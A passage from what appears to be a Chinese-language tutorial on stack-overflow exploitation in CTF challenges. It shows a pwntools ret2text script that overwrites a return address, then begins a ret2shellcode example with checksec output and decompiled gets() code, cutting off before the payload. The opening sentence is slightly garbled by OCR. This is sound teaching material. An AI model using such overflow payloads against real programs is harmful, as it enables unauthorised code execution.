 可以看到esp为0xffffcd40，ebp为具体的payload如下0xffffcdc8，同时s相对于esp的索引为[esp+0x1c]，所以，s的地址为0xffffcd5c，所以s相对于ebp的偏移为0x6C，所以相对于返回地址的偏移为0x6c+4。

最后的payload如下：

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2text')
target = 0x804863a
sh.sendline('A' * (0x6c+4) + p32(target))
sh.interactive()
```

## 题目

# ret2shellcode

## 原理

ret2shellcode需要我们控制程序执行shellcode代码。而所谓的shellcode指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的shell。**一般来说，shellcode都需要我们自己去填充。这其实是另外一种典型的利用的方法，即此时我们需要自己去填充一些可执行的代码**。

而在栈溢出的基础上，我们一般都是向栈中写内容，所以要想执行shellcode，需要对应的binary文件没有开启NX保护。

## 例子

这里我们以bamboofox中的ret2shellcode为例，首先检测程序开启的保护

```shell
➜  ret2shellcode checksec ret2shellcode
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

可以看出源程序几乎没有开启任何保护，并且有可读，可写，可执行段。我们再使用IDA看一下程序

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets((char *)&v4);
  strncpy(buf2, (const char *)&v4, 0x64u);
  printf("bye bye ~");
  return 0;
}
```
